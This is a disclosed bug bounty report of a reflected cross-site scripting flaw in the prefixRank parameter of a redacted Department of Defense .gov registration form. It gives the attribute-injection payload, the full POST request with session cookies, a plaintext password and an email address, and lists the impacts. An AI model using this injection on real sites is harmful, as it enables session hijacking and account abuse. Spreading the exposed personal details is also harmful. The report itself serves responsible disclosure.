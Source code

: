 # reflected xss in www.████████.gov

## Report Details
- **Report ID**: 1814335
- **URL**: https://hackerone.com/reports/1814335
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-21T12:50:26.639Z
- **Disclosed**: 2023-01-27T18:37:56.279Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
It was observed that the application is vulnerable to cross-site scripting (XSS). XSS is a type of attack that involves running a malicious scripts on a victim’s browser.
poc attached
payload: ryp3i%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fopk15
Parameter: prefixRank
request:
```
POST /ioss/site/customer.cfm?oHvIaPEiVgj7Hf9Ux5T+eNZwuEg2J/n12v1EZMCIm2I= HTTP/1.1
Host: www.████.gov
Cookie: CFID=37933027; CFTOKEN=51767030; JSESSIONID=1A3418B42833E571ACD8B2EA991592C4.cfusion; __utma=90160643.185474856.1671578010.1671578010.1671578010.1; __utmc=90160643; __utmz=90160643.1671578010.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmt_GSA_CP=1; __utmb=90160643.10.10.1671578010
Content-Length: 628
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://www.██████████.gov
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.█████████.gov/ioss/site/customer.cfm?M8LgLru4s3ED7nBcLICmmmePvRA/+vXyGWDMaEFgwajcrt1aH3tfpVSr8pUuzMfeeJrg2zmmBIsdNqSXGXhXtg==
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close

prefixRank=ryp3i%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fopk15&firstName=asdasd&middleName=ads&lastName=dez&affiliationID=1&level1=2&level3=&ORGNAME=Department+of+Agriculture&company=dez&address1=deaxsxas&address2=asda&city=asdas&state=OT&zip=3423423423&country=Anguilla&email=dezprogrammer%40gmail.com&dayPhone1=910&dayPhone2=648&dayPhone3=7750&dayPhone4=122&fax1=501&fax2=234&fax3=2343&orgID=&customerID=0&shipID=&passwordMetRequirements=False&passwordStrength=Very+Strong&pwChangeReqd=true&pw_minChars=14&pw_minUCase=2&pw_minLCase=2&pw_minNums=2&pw_minSymb=2&password=Salam123456789%40%40%40&passwordTxt=&mask=1&password2=Salam123456789%40%40%40&q1=1&a1=dez&q2=2&a2=dez
```

## Impact

Cookie Stealing - A malicious user can steal cookies and use them to gain access to the application.
Arbitrary requests - An attacker can use XSS to send requests that appear to be from the victim to the web server.
Malware download - XSS can prompt the user to download malware. Since the prompt looks like a legitimate request from the
site, the user may be more likely to trust the request and actually install the malware.
Defacement - attacker can deface the website usig javascript code.

## System Host(s)
████.gov

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1-register once 
2-if you try one more time  , you will receive "this email address already exists in the system "
3-now inject payload 
poc video attached

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
